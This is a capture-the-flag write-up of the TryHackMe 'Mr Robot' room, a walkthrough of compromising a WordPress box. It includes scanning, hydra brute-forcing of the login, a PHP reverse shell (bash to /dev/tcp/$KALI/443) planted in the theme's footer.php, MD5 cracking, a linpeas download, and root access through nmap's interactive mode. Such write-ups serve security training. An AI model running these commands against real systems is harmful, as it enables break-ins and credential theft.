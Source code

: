 # Mr Robot CTF

**Room Link:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)





## Scanning

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (6).png" alt=""><figcaption></figcaption></figure>

### HTTP port 80

This ran for the majority of the time I was working on the box, I found the wordpress and checked robots.txt manually and the scan didn't really find anything of interest.

**Kali**

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

#### Key 1

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

**Downloaded fsocity.dic**

<figure><img src="../../.gitbook/assets/image (20) (1) (4).png" alt=""><figcaption></figcaption></figure>

If you refresh the page you'll go to a wordpress site.

<figure><img src="../../.gitbook/assets/image (27) (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

Test to see what users exist in wordpress, if the user doesn't exist it will give an error saying the user is invalid.

<figure><img src="../../.gitbook/assets/image (26) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -L fsocity.dic -p test  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10
.10.70.148%2Fwp-admin%2F&testcookie=1:Invalid username" -V -t 30    
```

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (2) (2).png" alt=""><figcaption></figcaption></figure>

Because there were so many entries in fsocity.dic I tried to reduce it as much as I could by removing duplicates and passwords that I thought would be unlikely.

**Kali**

```
cat fsocity.dic | sort | uniq > new-fsocity.dic
#Remove lines with less than 4 characters
sed -r '/^.{,4}$/d' new-fsocity.dic > new-new-fsocity.dic
#Remove lines with just numbers
awk '! /^[0-9]+$/' new-new-fsocity.dic > nonums.dic 
#Remove lines with more than 11 characters
sed '/^.\{11\}./d' nonums.dic > final.txt
```



**Kali**

```
hydra -L Elliot -P fsocity.dic  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F
10.10.70.148%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

<figure><img src="../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

Connection is made but it isn't stable.

<figure><img src="../../.gitbook/assets/image (5) (11).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell&#x20;

wpscan found out that twentyfifeen is installed.

**Kali**

```
wpscan --url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (11) (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -vlnp 443
```

Added the same shell to footer.php which should appear on every page visited. Then I just went back to http://$VICTIM/join and it worked.

<figure><img src="../../.gitbook/assets/image (2) (1) (7).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/robot
ls
cat password.raw-md5 
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

<figure><img src="../../.gitbook/assets/image (10) (1) (8).png" alt=""><figcaption></figcaption></figure>

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (37) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Victim**

```
/usr/local/bin/nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>
